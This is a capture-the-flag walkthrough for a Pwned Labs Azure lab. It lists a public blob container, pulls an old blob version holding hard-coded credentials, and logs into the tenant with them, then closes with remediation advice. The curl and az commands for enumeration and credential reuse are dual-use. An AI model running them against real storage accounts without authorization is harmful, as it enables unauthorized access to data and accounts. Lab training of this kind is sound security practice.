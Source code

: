 ```yaml
---
title: Azure Blob Container to Initial Access
description: Azure Blob Container to Initial Access
image:
  path: azure.webp
categories:
- Pwned Labs
- Azure
layout: post
media_subpath: /assets/posts/labs/pwnedlabs/azure/
tags:
- pwnedlabs
- azure
- cloud
---
```

# Scenario

Mega Big Tech have adopted a hybrid cloud architecture and continues to use a local on-premise Active Directory domain, as well as the Azure cloud. They are wary of being targeted due to their importance in the tech world, and have asked your team to assess the security of their infrastructure, including cloud services. An interesting URL has been found in some public documentation, and you are tasked with assessing it.

# Walkthrough
We are given URL: `http://dev.megabigtech.com/$web/index.html`. Let's check the content. It seems like it's a static page.

![](azure-blob-container-to-initial-access-1.png)

The page includes static files from [Azure Blob Storage](https://learn.microsoft.com/en-us/azure/storage/blobs/storage-blobs-introduction), which is Microsoft's object storage solution for the cloud. This can be confirmed by [endpoint format](https://cloud.hacktricks.wiki/en/pentesting-cloud/azure-security/az-services/az-storage.html#storage-endpoints)

![](azure-blob-container-to-initial-access-2.png)

We can also try accessing `https://mbtwebsite.blob.core.windows.net/$web/index.html` to confirm that site is hosted on Azure Blob Storage. This can also be confirmed via `curl` (`Server: Blob Service Version 1.0 Microsoft-HTTPAPI/2.0` header) or `Invoke-WebRequest` (`x-ms-blob-type: BlockBlob` header)
```
└─$ curl -I https://mbtwebsite.blob.core.windows.net/$web/index.html                                                       
HTTP/1.1 400 One of the request inputs is out of range.
Transfer-Encoding: chunked
Server: Blob Service Version 1.0 Microsoft-HTTPAPI/2.0
x-ms-request-id: 2132b9e2-801e-0010-2870-058957000000
Date: Mon, 04 Aug 2025 18:49:27 GMT
```
```
└─PS> Invoke-WebRequest -Uri 'https://mbtwebsite.blob.core.windows.net/$web/index.html' -Method Head | Select-Object -ExpandProperty Headers
                                                                                                                        
Key               Value
---               -----
ETag              {0x8DBD1A84E6455C0}
Server            {Windows-Azure-Blob/1.0, Microsoft-HTTPAPI/2.0}
x-ms-request-id   {01973c31-b01e-0024-2470-05ba9f000000}
x-ms-version      {2009-09-19}
x-ms-lease-status {unlocked}
x-ms-blob-type    {BlockBlob}
Date              {Mon, 04 Aug 2025 18:50:06 GMT}
Content-Length    {782359}
Content-Type      {text/html}
Content-MD5       {JSe+sM+pXGAEFInxDgv4CA==}
Last-Modified     {Fri, 20 Oct 2023 20:08:20 GMT}
```

We can continue examining Azure Blob Storage. It [consists of several parts](https://learn.microsoft.com/en-us/azure/storage/blobs/storage-blobs-introduction#blob-storage-resources)

![](azure-blob-container-to-initial-access-3.png)

Based on [Microsoft documentation](https://learn.microsoft.com/en-us/azure/storage/blobs/storage-blobs-introduction#blob-storage-resources), we can digest `https://mbtwebsite.blob.core.windows.net/$web/index.html`

- `https`: Protocol
- `mbtwebsite`: [Storage account name](https://learn.microsoft.com/en-us/azure/storage/blobs/storage-blobs-introduction#storage-accounts)
- `blob.core.windows.net`: [Azure Storage service endpoint](https://learn.microsoft.com/en-us/azure/storage/common/storage-account-overview?toc=%2Fazure%2Fstorage%2Fblobs%2Ftoc.json&bc=%2Fazure%2Fstorage%2Fblobs%2Fbreadcrumb%2Ftoc.json#standard-endpoints)
- `$web`: [Container name](https://learn.microsoft.com/en-us/azure/storage/blobs/storage-blobs-introduction#containers)
- `index.html`: file requested

We can use the following [documentation](https://learn.microsoft.com/en-us/rest/api/storageservices/list-blobs?tabs=microsoft-entra-id) to enumerate Azure Blob Storage. 

Let's list the blobs and directories
```
https://mbtwebsite.blob.core.windows.net/$web?restype=container&comp=list
```
```
https://mbtwebsite.blob.core.windows.net/$web?restype=container&comp=list&delimiter=%2F
```

![](azure-blob-container-to-initial-access-4.png)

Nothing interesting, but we can try checking for [blob versioning](https://learn.microsoft.com/en-us/azure/storage/blobs/versioning-overview), which is maintains previous versions of a blob.
```
https://mbtwebsite.blob.core.windows.net/$web?restype=container&comp=list&include=versions
```
If we try checking for versions, we get an error. It seems like based on [documentation](https://learn.microsoft.com/en-us/rest/api/storageservices/list-blobs?tabs=microsoft-entra-id#uri-parameters) `include=versions` parameter is supported by version `2019-12-12` 

![](azure-blob-container-to-initial-access-5.png)

We can specify it by setting the `x-ms-version` header
```
curl -H "x-ms-version: 2019-12-12" 'https://mbtwebsite.blob.core.windows.net/$web?restype=container&comp=list&include=versions' | xmllint --format - | less
```

We find blob `scripts-transfer.zip` and the version ID that we can use to download

![](azure-blob-container-to-initial-access-6.png)

```
└─$ curl -H "x-ms-version: 2019-12-12" 'https://mbtwebsite.blob.core.windows.net/$web/scripts-transfer.zip?versionId=2025-02-18T00:29:19.3854225Z' --output scripts-transfer.zip
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1606  100  1606    0     0   1945      0 --:--:-- --:--:-- --:--:--  1944
```

Content of the zip archive
```
└─$ unzip scripts-transfer.zip             
Archive:  scripts-transfer.zip
  inflating: entra_users.ps1         
  inflating: stale_computer_accounts.ps1
```

Inside we find credentials

![](azure-blob-container-to-initial-access-7.png)

We can try both credentials, but only `marcus@megabigtech.com` works
```
└─$ az login -u marcus@megabigtech.com -p '<REDACTED>'   
Starting September 1, 2025, MFA will be gradually enforced for Azure public cloud. The authentication with username and password in the command line is not supported with MFA. Consider using one of the compatible authentication methods. For more details, see https://go.microsoft.com/fwlink/?linkid=2276314                                                                                                                                                                      
[
  {
    "cloudName": "AzureCloud",
    "homeTenantId": "2590ccef-687d-493b-ae8d-441cbab63a72",
    "id": "ceff06cb-e29d-4486-a3ae-eaaec5689f94",
    "isDefault": true,
    "managedByTenants": [],
    "name": "Microsoft Azure Sponsorship",
    "state": "Enabled",
    "tenantDefaultDomain": "megabigtech.com",
    "tenantDisplayName": "Default Directory",
    "tenantId": "2590ccef-687d-493b-ae8d-441cbab63a72",
    "user": {
      "name": "marcus@megabigtech.com",
      "type": "user"
    }
  }
]
```
```
$Username = "marcus@megabigtech.com"
$Password = "<REDACTED>" | ConvertTo-SecureString -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential ($Username, $Password)
Connect-AzAccount -Credential $Credential
```

To get the flag
```
└─$ az ad signed-in-user show
{
  "@odata.context": "https://graph.microsoft.com/v1.0/$metadata#users/$entity",
  "businessPhones": [],
  "displayName": "Marcus Hutch",
  "givenName": "Marcus",
  "id": "41c178d3-c246-4c00-98f0-8113bd631676",
  "jobTitle": "Flag: <REDACTED>",
  "mail": null,
  "mobilePhone": null,
  "officeLocation": null,
  "preferredLanguage": null,
  "surname": "Hutch",
  "userPrincipalName": "marcus@megabigtech.com"
}
```
```
Get-AzADUser -SignedIn | fl
```

## Remediation
This section is from [Walkthrough section](https://pwnedlabs.io/labs/azure-blob-container-to-initial-access) of the lab.

The entire blob container is accessible by anonymous users and world-readable, when just the website files should have been configured to be publicly accessible.

![](azure-blob-container-to-initial-access-8.png)

This means that a previous version of a sensitive file was also publicly discoverable and readable. To mitigate this issue, the previous version should be deleted.

![](azure-blob-container-to-initial-access-9.png)

To do it via Azure CLI, the following command could be used after setting the storage account context with `Set-AzCurrentStorageAccount`
```
Remove-AzStorageBlob -Container '$web' -Blob scripts-transfer.zip -VersionId "2024-03-29T20:55:40.8265593Z"
```

Moreover, it's not recommended to hard-code credentials in scripts. Credentials should be stored in a PAM (Privileged Access Management) system, password manager or using a service such as Azure Key Vault. Key Vault allows you to securely store and access keys, passwords, certificates, and other secrets. 

Check other [community walkthroughs](https://youtu.be/L0eM8RCqJV0)